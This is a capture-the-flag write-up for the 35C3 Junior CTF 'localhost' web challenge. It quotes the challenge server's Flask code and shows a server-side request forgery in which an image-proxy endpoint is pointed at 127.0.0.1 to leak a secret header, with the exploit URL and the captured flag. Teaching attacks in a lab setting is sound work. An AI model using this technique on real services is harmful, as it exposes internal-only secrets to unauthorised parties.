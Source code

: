 # 35C3 Junior CTF – localhost

* **Category:** Web  
* **Points:** 81 (variable)

## Challenge

> We came up with some ingenious solutions to the problem of password reuse.
> For users, we don't use password auth but send around mails instead. This
> works well for humans but not for robots. To make test automation possible,
> we didn't want to send those mails all the time, so instead we introduced
> the localhost header. If we send a request to our server from the same host,
> our state-of-the-art python server sets the localhost header to a secret
> only known to the server. This is bullet-proof, luckily.  
>  
> http://35.207.189.79/  
>  
> Difficulty Estimate: Medium  
>  
> ===============================================  
>  
> Good coders should learn one new language every year.  
>  
> InfoSec folks are even used to learn one new language for every new problem
> they face (YMMV).  
>  
> If you have not picked up a new challenge in 2018, you're in for a treat.  
>  
> We took the new and upcoming Wee programming language from paperbots.io. Big
> shout-out to Mario Zechner (@badlogicgames) at this point.  
>  
> Some cool Projects can be created in Wee, like: this, this and that.  
>  
> Since we already know Java, though, we ported the server (Server.java and
> Paperbots.java) to Python (WIP) and constantly add awesome functionality.
> Get the new open-sourced server at /pyserver/server.py.  
>  
> Anything unrelated to the new server is left unchanged from commit
> dd059961cbc2b551f81afce6a6177fcf61133292 at badlogics paperbot github
> (mirrored up to this commit here).  
>  
> We even added new features to this better server, like server-side Wee
> evaluation!  
>  
> To make server-side Wee the language of the future, we already implemented
> awesome runtime functions. To make sure our VM is 100% safe and secure,
> there are also assertion functions in server-side Wee that you don't have to
> be concerned about.

## Solution

Analyzing `http://35.207.189.79/pyserver/server.py` two interesting methods
can be discovered.

The header is set in the following method.

```Python  
@app.after_request  
def secure(response: Response):  
   if not request.path[-3:] in ["jpg", "png", "gif"]:  
       response.headers["X-Frame-Options"] = "SAMEORIGIN"  
       response.headers["X-Xss-Protection"] = "1; mode=block"  
       response.headers["X-Content-Type-Options"] = "nosniff"  
       response.headers["Content-Security-Policy"] = "script-src 'self' 'unsafe-inline';"  
       response.headers["Referrer-Policy"] = "no-referrer-when-downgrade"  
       response.headers["Feature-Policy"] = "geolocation 'self'; midi 'self'; sync-xhr 'self'; microphone 'self'; " \  
                                            "camera 'self'; magnetometer 'self'; gyroscope 'self'; speaker 'self'; " \  
                                            "fullscreen *; payment 'self'; "  
       if request.remote_addr == "127.0.0.1":  
           response.headers["X-Localhost-Token"] = LOCALHOST

   return response  
```

The functionality that can be abused to generate a request from the same
server is the following.

```Python  
# Proxy images to avoid tainted canvases when thumbnailing.  
@app.route("/api/proxyimage", methods=["GET"])  
def proxyimage():  
   url = request.args.get("url", '')  
   parsed = parse.urlparse(url, "http")  # type: parse.ParseResult  
   if not parsed.netloc:  
       parsed = parsed._replace(netloc=request.host)  # type: parse.ParseResult  
   url = parsed.geturl()

   resp = requests.get(url)  
   if not resp.headers["Content-Type"].startswith("image/"):  
       raise Exception("Not a valid image")

   # See https://stackoverflow.com/a/36601467/1345238  
   excluded_headers = ['content-encoding', 'content-length', 'transfer-
encoding', 'connection']  
   headers = [(name, value) for (name, value) in resp.raw.headers.items()  
              if name.lower() not in excluded_headers]

   response = Response(resp.content, resp.status_code, headers)  
   return response  
```

This is the functionality used by the `loadImage` method in the programming
environment.

The server runs at what defined here:

```Python  
if __name__ == "__main__":  
   app.run(host="0.0.0.0", port=8075)  
```

An image is mandatory to abuse the service, because the Content-Type is
strictly checked, but three extensions are blacklisted in the code that sets
the target header.

Hence, the following image can be used: `img/paperbots.svg`.

The exploit is performed with a GET request like the following (or using
`0.0.0.0` for the IP address).

```  
http://35.207.189.79/api/proxyimage?url=http://127.0.0.1:8075/img/paperbots.svg  
```  
  
The response will contain the flag.

```  
X-Localhost-Token: 35C3_THIS_HOST_IS_YOUR_HOST_THIS_HOST_IS_LOCAL_HOST  
```

Original writeup (https://github.com/m3ssap0/CTF-
Writeups/blob/master/35C3%20Junior%20CTF/localhost/README.md).